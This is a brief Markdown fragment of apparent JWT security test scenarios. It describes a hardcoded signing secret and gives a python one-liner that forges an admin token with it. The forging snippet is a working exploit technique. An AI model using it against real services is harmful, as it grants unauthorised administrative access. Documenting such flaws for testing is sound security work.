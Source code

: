 # JWT Token Security Vulnerabilities - Test Scenarios

## Vulnerability 1: Hardcoded Secret Key

### Exploitation
```bash
# The secret is "mySecretKey" - easily discoverable
# Generate fake admin token using the same secret
python3 -c "
import jwt
token = jwt.encode({'sub': 'hacker', 'role': 'admin'}, 'mySecretKey', algorithm='HS512')
print(token)
"

